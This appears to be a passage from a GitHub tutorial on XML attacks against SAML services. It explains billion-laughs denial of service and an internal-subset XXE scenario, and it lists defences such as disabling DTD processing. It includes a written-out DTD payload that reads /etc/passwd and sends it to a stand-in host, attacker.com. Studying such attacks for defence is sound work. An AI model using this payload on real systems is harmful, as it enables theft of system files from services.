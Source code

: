 **XML DoS Attacks (Billian Laugh Attack)** : XML DoS attacks aim to cause service disruption in a system with large, complex or badly formatted XML data. These attacks cause the XML processor on the target system to consume resources.
Billian Laugh Attack is a common XML DoS attack, especially in SAML applications. Attackers format an XML file in such a way that it takes a long time to decode by the processor and causes excessive resource consumption. In this case, the system cannot perform its normal functionality as it is overloaded due to the attacker's creative formatting and service interruption occurs.

This vulnerability could allow malicious attackers to exploit the SAML implementation and access sensitive data on the system or cause service disruption. To counter such attacks, measures should be taken, such as strengthening input validation, disabling DTD processing, or using secure XML processors.

Now I will inform you about these types of attacks. The thing to remember is that this is not a complete solution. New types of attacks are discovered every day, and attack surfaces are constantly changing. Here I aim to lay the groundwork for you.

<hr> _ _

### Let's take a look at Attack Types

Here I will describe the types of attacks that I know. There may be a possibility that I have special shortcomings for today. You can PR or open an issue to fix them. I will create scenarios about the attack types that I will describe and give code examples.
<hr> _ _

**Internal Subset Attack** : An attacker can access sensitive system information by creating a DTD content subset with <!ENTITY> declarations:

Scenario: First of all, I'm not going to tell you to type nonsense xxe on <!ENTITY and it will magically return /etc/passwd directly on the screen. You can go and find this anywhere on the internet. We're going to attack the default vulnerable SAML a little differently.

- An attacker generates malicious XML content to send to the target SAML service.

- The XML content includes a DTD (Document Type Definition) as follows:

```
<!DOCTYPE root [
<!ENTITY % internalSubset SYSTEM "file:///etc/passwd">
<!ENTITY % payload "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%internalSubset;'>">
%payload;
%internalSubset;
]>
This DTD defines a subset of content and creates two external entities (%internalSubset and %payload).
```

- External entity %internalSubset points to "file:///etc/passwd". This is where the attacker wants to obtain the contents of the /etc/passwd file.

- External entity %payload creates an external entity named exfil, and its content is "http://attacker.com/?data=%internalSubset;" redirects to address. Here, the value of the external entity %internalSubset is used.

- Attacker uses external entities %payload and %internalSubset inside XML content: ` <root></root> `
